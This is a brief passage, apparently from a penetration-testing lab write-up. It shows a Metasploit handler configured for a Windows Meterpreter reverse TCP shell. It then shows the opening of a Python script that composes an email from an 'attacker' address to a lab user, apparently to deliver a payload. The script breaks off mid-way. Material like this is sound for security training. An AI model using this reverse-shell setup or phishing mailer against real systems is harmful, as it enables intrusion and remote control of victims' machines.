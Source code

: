 ```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.4
set LPORT 4444
exploit
```

- python > send_email.py

```python

import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
fromaddr = "attacker@fake.net"
toaddr = "bob@ine.local"  
# instance of MIMEMultipart
msg = MIMEMultipart()
# storing the senders email address  
msg['From'] = fromaddr
# storing the receivers email address 
msg['To'] = toaddr
# storing the subject 
